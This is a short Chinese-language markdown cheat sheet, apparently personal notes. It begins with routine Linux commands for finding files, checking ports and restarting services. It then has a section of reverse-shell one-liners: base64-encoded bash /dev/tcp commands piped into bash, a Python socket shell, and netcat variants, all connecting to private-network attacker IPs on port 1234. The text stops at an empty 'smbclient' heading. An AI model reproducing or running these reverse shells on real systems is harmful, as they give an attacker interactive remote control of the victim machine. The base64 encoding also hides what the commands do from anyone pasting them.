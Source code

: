 

#### linux小知识

```
find / -name test.py 2>/dev/null
#2>/dev/null的意思就是将标准错误stderr删掉。

man是manual的缩写，man命令用来提供在线帮助，通过man命令可以查看Linux中的命令帮助、配置文件帮助、编程帮助等信息。

#centos7 重启网络服务
service network restart

#查看端口占用
netstat -tlunp

#重启apache
systemctl start httpd.service

#查找大文件
du -sh /var/* 2>/dev/null | sort -hr | head -3

#查看内网ip
cat /proc/net/fib_trie

#gem添加源
gem sources --remove https://rubygems.org/
gem sources --add https://gems.ruby-china.com

```

#### 反弹shell

```
#kali-1
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTI4LzEyMzQgMD4mMQo=|base64 -d |bash

#kali-2
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwMS8xMjM0IDA+JjEK|base64 -d |bash


python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.101",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

nc -e /bin/sh 10.0.0.1 1234 #不同版本的nc不一定支持-e选项
不能使用-e选项时：
mknod backpipe p && nc 192.168.56.101 1234 0<backpipe | /bin/bash
1>backpipe
rm -f /tmp/p; mknod /tmp/p p && nc 192.168.56.101 1234 0/tmp/
```

#### smbclient
